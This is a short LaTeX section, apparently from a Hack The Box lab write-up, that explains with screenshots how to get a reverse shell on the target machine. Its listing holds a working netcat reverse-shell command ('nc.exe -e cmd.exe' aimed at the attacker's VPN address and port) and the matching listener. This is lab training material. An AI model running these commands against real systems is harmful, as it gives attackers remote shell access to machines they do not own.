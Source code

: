 \documentclass[../main.tex]{subfiles}
\begin{document}
\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_14_Boyan.PNG}
\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_12_Boyan.PNG}
\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_15_Boyan.PNG}
\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_13_Boyan.PNG}

The first picture shows what my IP is from the VPN. 
After executing the command with the correct IP address, you can see that the netcat program has been copied successfully. 

Commands:
\begin{lstlisting}
nc.exe -e cmd.exe 10.10.14.71 1234 //target machine
sudo nc -nvlp 1234 //local machine
\end{lstlisting}

Then we execute the netcat command to connect to the shell. On the local machine, you must first listen to port 1234. 

\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_26_Boyan.PNG}
\includegraphics[width=\linewidth]{images/Boyan/HackTheBox_27_Boyan.PNG}
\end{document}
